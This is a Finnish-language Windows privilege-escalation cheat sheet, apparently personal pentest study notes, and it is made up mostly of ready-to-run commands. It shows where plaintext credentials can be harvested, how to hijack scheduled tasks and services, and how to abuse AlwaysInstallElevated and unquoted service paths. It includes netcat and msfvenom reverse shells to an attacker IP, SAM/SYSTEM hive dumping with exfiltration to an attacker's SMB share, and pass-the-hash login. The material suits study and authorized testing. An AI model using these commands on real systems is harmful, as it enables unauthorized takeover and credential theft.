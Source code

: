 ## Privilege Escalation: Windows

Windowsissa tavalliset käyttäjät kuuluvat Users -käyttäjäryhmään, administraattorit Administrators -käyttäjäryhmään.

Erityiskäyttäjätunnukset:

SYSTEM / LocalSystem: Käyttöjärjestelmän käyttämä tunnus käyttöjärjestelmän sisäisiin toimintoihin. Adminejakin korkeammat oikeudet.

Local Service: Oletuskäyttäjä "minimioikeuksilla" Windowsin palvelujen ajamiseen, anonyymit yhteydet verkon yli.

Network Service: Sama kuin yllä, mutta käyttää tietokoneen tunnuksia autentikoitumiseen verkon yli.

**Selkokielisten tunnusten etsimispaikkoja**

WDS:llä asennetut "Unattended Windows Installations" saattavat jättää admin-tunnuksia näihin sijainteihin:
```bash
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
Powershell-historia (cmd.exe ajettuna):
```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Tallennetut käyttäjätunnukset:
```cmd
cmdkey /list
```
Jos löytyy kokeilemisen arvoisia, niin:
```cmd
runas /savecred /user:USERNAME cmd.exe
```
IIS konfiguraatioon tallennetut tunnukset:
```cmd
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
```cmd
type C:\inetpub\wwwroot\web.config | findstr connectionString
```
PuTTY:n tallentamat Proxy-tunnukset:
```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
**Ajastetut tehtävät**

Listaa ajastetut tehtävät:
```cmd
schtasks
```
Lisätietoja yksittäisestä tehtävästä:
```cmd
schtasks /query /tn *TaskName* /fo list /v
```
Task to run kertoo ajettavan tiedoston (esim. .bat scripti), Task as user kertoo käyttäjätunnuksen, jolla tehtävä ajetaan. Alla olevalla komennolla tarkistetaan ko. tiedoston kirjoitusoikeudet, ja jos nykyisellä käyttäjällä voidaan kirjoittaa, niin voidaan muokata scriptiä, ja se pyörähtää Task as user-tunnuksella. 
```cmd
icacls C:\polku\tiedostoon\scripti.bat
```
Jos esim. \USERS -käyttäjillä kirjoitusoikeudet, voidaan tehdä reverse shell netcatilla:
```cmd
echo c:\polku\netcatiin\nc64.exe -e cmd.exe *Hyökkääjän IP* 9999 > C:\polku\scriptiin\scripti.bat
```
Netcat -kuuntelumoodiin omalle koneelle porttiin 9999:
```cmd
nc -lvp 9999
```
Seuraavan ajastuksen yhteydessä aukeaa shell "Task as user" -tunnuksella.

**AllwaysInstallElevated**

Windowsin asennustiedostot .msi käynnistyvät oletuksena käyttäjän oikeuksilla, mutta voidaan konfiguroida käynnistymään myös korkeammilla oikeuksilla. Jos **molemmat** alla olevat rekisteriarvot saadaan päälle onnistuneesti:
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```
```cmd
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
niin voidaan luoda msfvenomilla .msi payload:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=*Hyökkääjän IP* LPORT=*Hyökkääjän portti* -f msi -o payload.msi
```
ja vastaavilla asetuksilla Metasploit Handler vastaanottamaan yhteys. Kun payload.msi on siirretty kohteelle, ajetaan ao. komento ja reverse shell pitäisi aueta:
```cmd
msiexec /quiet /qn /i C:\polku\kohteeseen\payload.msi
```
## Servicet

Servicet pyörivät Service Control Managerin (SCM) kautta. Jokaisella servicellä on vastaava ohjelma, joka ajetaan. Servicestä tietoa esim.
```cmd
sc qc apphostsvc
```
BINARY_PATH_NAME = ohjelman polku, SERVICE_START_NAME = tunnus, jolla service käynnistetään.

Tarkistetaan ohjelman oikeudet icaclsilla:
```cmd
icacls C:\polku\ohjelmaan\service.exe
```
Jos käyttäjällä muokkausoikeudet (M)/(F), voidaan uudelleenkirjoittaa ko. ohjelma ja se ajetaan servicen ajavalla käyttäjätunnuksella. msfvenom payload esim:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=*Hyökkääjän IP* LPORT=*Hyökkääjän portti* -f exe-service -o service.exe
```
Siirretään päälle, ja annetaan oikeudet:
```cmd
icacls service.exe /grant Everyone:F
```
Jonka jälkeen netcat kuuntelija --> reverse shell, kun service käynnistyy uudelleen.

**Unquoted Service Paths**

Jos servicen BINARY_PATH_NAME ei ole laitettu oikein heittomerkkeihin, syntyy välilyönneistä mahdollisuus hyväksikäytölle. Esim. polun C:\MyPrograms\SFTP Siirto Työkalu\run.exe yrittää SCM arvata oikeaa polkua järjestyksessä:

C:\MyPrograms\SFTP.exe, argumentit "Siirto", "Työkalu\run.exe"

C:\MyPrograms\SFTP Siirto.exe, argumentit "Työkalu\run.exe"

C:\MyPrograms\SFTP Siirto Työkalu\run.exe

Jos käyttäjällä on MyPrograms -kansioon kirjoitusoikeudet, voidaan luoda msfvenomilla payload nimellä SFTP.exe ja viedä se MyPrograms -kansioon, jolloin servicen uudelleenkäynnistyessä se suoritetaan serviceen asetetulla käyttäjätunnuksella.

**Servicen config-muutosoikeudet**

Jos käyttäjä voi muuttaa servicen konfigurointia, voi hyökkääjä muuttaa suoritettavan komennon toiseksi ja saada tätä kautta ajettua omaa koodia servicen käynnistystunnuksena. Apuna voidaan käyttää windowsin AccessChk -työkalua. Tarkistetaan servicen configurointioikeudet:
```cmd
C:\polku\accesschk64.exe -qlc servicen_nimi
```
Jos havaitaan, että konffeja voidaan muuttaa: luodaan payload, tuodaan kohteelle, annetaan ajo-oikeudet:
```cmd
icacls C:\polku\payload.exe /grant Everyone:F
```
jonka jälkeen muutetaan config ohjaamaan payloadiin (huomaa välilyönnit):
```cmd
sc config servicen_nimi binPath= "C:\polku\payload.exe" obj= LocalSystem
```

## Käyttäjän privilege
```cmd
whoami /priv
```
Lista vaarallisista privilegeistä: https://github.com/gtworek/Priv2Admin

**SeBackup / SeRestore

Jos käyttäjällä SeBackup / SeRestore oikeudet, voidaan esim. kopioida SAM ja SYSTEM rekisteritiedot ja saada Administratorin salasana-hash käyttöön. Command promt auki Run as administrator -> 
```cmd
reg save hklm\system C:\polku\system.hive
```
```cmd
reg save hklm\sam C:\polku\sam.hive
```
Tiedostot voidaan siirtää hyökkääjän koneelle esim. käynnistämällä hyökkääjän koneelle pieni SMB-palvelin ja kopioimalla tiedostot sinne. Esim. ohjataan public -niminen kansio ja ohjataan se hyökkääjän koneella share-kansioon, ja käyttäjätunnus+salasana korkatulta Windows-käyttäjältä:
```cmd
mkdir share
```
```cmd
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username KÄYTTÄJÄ -password SALASANA public share
```
Uhrin koneella kopiointi:
```cmd
copy C:\polku\sam.hive \\HYÖKKÄÄJÄN_IP\public\
```
```cmd
copy C:\polku\system.hive \\HYÖKKÄÄJÄN_IP\public\
```
Tiedostoista hashit:
```cmd
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```
Ja kirjautuminen hasheja käyttämällä:
```sh
python /opt/impacket/examples/psexec.py -hashes q1w2e3r4t5y6u7iu:9o8i7u6y5t4r3e2w12q administrator@UHRIN_IP
```

